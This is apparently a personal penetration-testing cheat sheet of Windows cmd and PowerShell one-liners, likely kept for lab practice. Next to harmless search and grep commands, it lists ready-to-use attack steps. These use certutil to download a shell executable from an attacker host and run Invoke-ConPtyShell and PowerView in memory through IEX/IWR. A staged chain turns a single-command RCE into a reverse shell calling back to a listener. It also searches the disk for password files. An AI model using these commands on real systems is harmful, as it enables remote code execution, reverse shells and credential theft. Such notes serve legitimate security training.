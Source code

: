 [static bins](https://github.com/andrew-d/static-binaries)
# windows
## cmd 

### web request

```cmd
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe 
```

### grep 

```cmd
command_that_produces_output | findstr "pattern"
```
## powershell 

### find

```powershell
Get-ChildItem -Path C:\ -Include *.<ext> -File -Recurse -ErrorAction SilentlyContinue
```

exclude folder or pattern:
```powershell
Get-ChildItem -Path C:\ -Include password* -File -Recurse -ErrorAction SilentlyContinue | Where-Object FullName -notmatch windows
```
### grep
```powershell
type "fileMonitorBackup.log" | Select-String -Pattern "backup"
type "fileMonitorBackup.log" | Select-String -NotMatch windows
```
### web request in memory

```powershell
IEX(IWR http://192.168.45.198/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell
# if you just wanna dot source it real quick then call the 
IEX (IWR -Uri http://192.168.45.179/scripts/PowerView.ps1 -UseBasicParsing)
```

### staged shell for single command cmd.exe RCE

first prepare a script, stage.ps1, that contains:
```powershell
IEX(IWR http://192.168.45.193/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.193 49668 
```
and host it along with `Invoke-ConPtyShell.ps1`

then call it from your RCE vector with this command
```cmd
echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.193/stage.ps1") | powershell -noprofile
```
